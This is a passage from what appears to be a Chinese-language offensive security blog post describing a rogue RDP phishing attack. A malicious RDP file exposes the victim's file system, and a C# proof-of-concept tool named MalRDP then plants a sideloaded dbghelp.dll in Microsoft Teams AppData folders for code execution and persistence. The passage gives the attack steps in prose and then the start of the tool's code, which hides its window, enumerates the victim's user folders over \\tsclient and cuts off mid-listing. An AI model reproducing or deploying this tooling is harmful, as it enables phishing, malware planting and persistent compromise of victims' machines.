 目前，我们只有一个 RDP 文件，该文件无需凭据即可自动连接到我们的服务器，并将受害者的主机文件系统暴露给我们的服务器。现在我们需要利用这种级别的访问。

有几种方法可以做到这一点，但为了保持简单，我们将使用一个人为的场景，我们将在受害者的主机文件系统中植入一个 DLL，特别是 Microsoft Teams
AppData 文件夹，每次受害者运行 Microsoft Teams 时都会侧加载。

至于其他漏洞利用场景，我鼓励你发挥你的想象力🙂。

我创建了一个简单的 C# 程序，我称之为 MalRDP，该程序在运行时将连接到受害者的主机文件系统（特别是 C 驱动器）并查找它有权访问的任何
Microsoft Teams AppData 文件夹，并将侧加载 DLL 复制到名为 dbghelp.dll 的 Teams 文件夹。

这将确保下次 Microsoft Teams 运行时，它将加载我们植入受害者文件系统中的恶意
DLL，并且我们在受害者的机器上获得代码执行（如果你考虑的话，还可以获得持久性）！

DLL 植入过程完成后，MalRDP 会让用户知道他将与服务器断开连接（根据网络钓鱼借口），然后断开受害者的连接，以防止他窥探我们的 RDP
服务器并允许下一个受害者也陷入此网络钓鱼。

我可能会扩展 MalRDP 以允许模块化配置，但这只是现在的 POC，我也想等待 Mike 的 Rouge
RDP，这无疑比我想出的任何东西都要好，所以再次，请留意 Rouge RDP 的发布（我知道我是......

以下是 MalRDP 的代码：

    
    
    using System;  
    using System.Collections.Generic;  
    using System.IO;  
    using System.Linq;  
    using System.Runtime.InteropServices;  
    using System.Windows.Forms;  
      
    namespace MalRDP  
    {  
        class Program  
        {  
            [DllImport("wtsapi32.dll", SetLastError = true)]  
            static extern bool WTSLogoffSession(IntPtr hServer, int sessionId, bool bWait);  
      
            [DllImport("kernel32.dll")]  
            static extern IntPtr GetConsoleWindow();  
      
            [DllImport("user32.dll")]  
            static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);  
      
            const int SW_HIDE = 0;  
            const int WTS_CURRENT_SESSION = -1;  
            static readonly IntPtr WTS_CURRENT_SERVER_HANDLE = IntPtr.Zero;  
      
            static void Main(string[] args)  
            {  
                var handle = GetConsoleWindow();  
                ShowWindow(handle, SW_HIDE);  
      
                try  
                {  
                    List<string> user_directories = Directory.GetDirectories(@"\\tsclient\C\Users\").ToList();  
                    foreach (string dir in user_directories)  
                    {  
                        try  
                        {  
                            if (dir.EndsWith("Default") || dir.EndsWith("Default User") || dir.EndsWith("Public") || dir.EndsWith("All Users"))  
                                continue;  
      
